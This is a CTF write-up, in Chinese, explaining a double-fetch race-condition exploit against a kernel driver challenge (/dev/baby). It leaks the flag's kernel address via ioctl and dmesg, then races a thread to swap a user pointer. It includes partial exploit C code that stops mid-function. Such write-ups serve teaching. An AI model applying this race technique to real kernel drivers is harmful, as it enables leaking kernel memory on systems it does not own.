 ### 解題思路
根據 `Double Fetch` 漏洞原理，發現此題目存在一個 `Double Fetch` 漏洞，當用戶輸入數據通過驗證後，再將 `flag_str` 所指向的地址改爲 flag 硬編碼地址後，即會輸出 flag 內容。

首先，利用提供的 `cmd=0x6666` 功能，獲取內核中 flag 的加載地址。

> 內核中以 `printk` 輸出的內容，可以通過 `dmesg` 命令查看。

然後，構造符合 `cmd=0x1337` 功能的數據結構，其中 `flag_len` 可以從硬編碼中直接獲取爲 33， `flag_str` 指向一個用戶空間地址。

最後，創建一個惡意線程，不斷的將 `flag_str` 所指向的用戶態地址修改爲 flag 的內核地址以製造競爭條件，從而使其通過驅動中的逐字節比較檢查，輸出 flag 內容。

### Exploit
```c
// gcc -static exp.c -lpthread -o exp
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000  //碰撞次數
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
//線程函數，不斷修改flag指向的地址爲內核中flag地址
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
    int addr_fd;
    char *idx;
    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   
	//獲取內核硬編碼的flag地址
    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
```